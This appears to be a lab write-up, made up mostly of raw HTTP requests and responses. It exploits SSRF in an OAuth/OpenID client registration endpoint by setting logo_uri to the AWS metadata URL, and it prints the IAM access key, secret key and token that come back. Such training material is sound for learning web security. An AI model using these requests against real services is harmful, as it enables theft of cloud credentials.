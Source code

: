 We will register our client application with the OAuth service.

```
POST /reg HTTP/1.1
Host: oauth-ac651f251fccadfcc08a508702c20078.web-security-academy.net
Content-Type: application/json

{
  "redirect_uris" : [
    "https://example.com"
  ],
  "logo_uri" : "https://h8q7wu7sh35k7ed3xkweig2mxd33rs.burpcollaborator.net"
}

In the response:
"client_id":"k6U7YzxGzpmI33Ubc7z6E"
```

```
GET /client/k6U7YzxGzpmI33Ubc7z6E/logo HTTP/1.1
Host: oauth-ac651f251fccadfcc08a508702c20078.web-security-academy.net

It fetches logo from our specified website.
```

**Solution:**

```
POST /reg HTTP/1.1
Host: oauth-ac651f251fccadfcc08a508702c20078.web-security-academy.net
Content-Type: application/json

{
  "redirect_uris" : [
    "https://example.com"
  ],
  "logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
}

In the response:
"client_id":"x12A9q3sqVcNEwQ7TQuaB"

GET /client/x12A9q3sqVcNEwQ7TQuaB/logo HTTP/1.1
Host: oauth-ac651f251fccadfcc08a508702c20078.web-security-academy.net

The response:
{
  "Code" : "Success",
  "LastUpdated" : "2021-12-18T14:22:27.724842439Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "orMX9hDAB6unCoxG9fBd",
  "SecretAccessKey" : "uZzaO8a4sW0mUfaR8n9GcLId6bEGqnDsk7un2wJ8",
  "Token" : "JxHPZlH17cpU944ugg8G586rIGUenWd83m2BxmxhtzDqybbYFQTrKHpKF3jZpiTw6hJzdH27Ynczs4uGbKOBHeIN00FVXd1enfes3jSZeex2M3x0bYJJtiZknwv0Lnwd9oNXHWzN6qWgvptXzoMxgXFCOBHx31ggEwLG7AVANmp6DE6ddvmi3isFdaQwA4S5SlGyvqVhdfuH6BrxJ1ILtzHvVWZsGCkvHXC4HVDfzX1GSDwvQUkGPJXHYnMhiFEL",
  "Expiration" : "2027-12-17T14:22:27.724842439Z"
}
```

